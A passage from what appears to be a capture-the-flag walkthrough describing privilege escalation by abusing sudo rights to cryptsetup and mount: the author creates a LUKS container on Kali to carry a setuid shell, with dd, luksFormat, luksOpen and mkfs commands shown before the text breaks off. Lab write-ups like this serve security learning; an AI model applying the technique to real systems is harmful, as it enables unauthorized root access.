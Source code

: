 
### Alternative Exploit sudo Luks

Because pain is able to run `cryptsetup` and `mount` as root, I can
ignore trying to open the encrypted volume on the box, and just create
my own instead. I'll add a setuid shell to the volume, and then on
mounting it, I can get a root shell.

On my Kali box, I'll create a luks container using [this
walkthrough](https://blog.canadianwebhosting.com/how-to-create-an-encrypted-container/).
First, create the file with `dd` that's 20M in size:



    root@kali# dd if=/dev/zero of=mal.luks bs=1024 count=20480
    20480+0 records in
    20480+0 records out
    20971520 bytes (21 MB, 20 MiB) copied, 3.05364 s, 6.9 MB/s

    root@kali# ls -lh mal.luks 
    -rwxrwx--- 1 root vboxsf 20M Jul  3 21:51 mal.luks



This creates a file of all 0s, 20M in size.

Rather than create a key file, I'll just use a password. I'll run
`cryptsetup` to initialize the Luks partition:



    root@kali# cryptsetup luksFormat mal.luks 

    WARNING!
    ========
    This will overwrite data on mal.luks irrevocably.

    Are you sure? (Type 'yes' in capital letters): YES
    Enter passphrase for mal.luks: 
    Verify passphrase: 



Now I'll map the volume to a `/dev` with `cryptsetup luksOpen`:



    root@kali# cryptsetup luksOpen mal.luks fsmal
    Enter passphrase for mal.luks: 



Now the device exists:



    root@kali# ls /dev/mapper/
    fsmal



I'll create a file system in the volume:



    root@kali# mkfs.ext4 /dev/mapper/fsmal 
    mke2fs 1.45.6 (20-Mar-2020)
    Creating filesystem with 4096 1k blocks and 1024 inodes
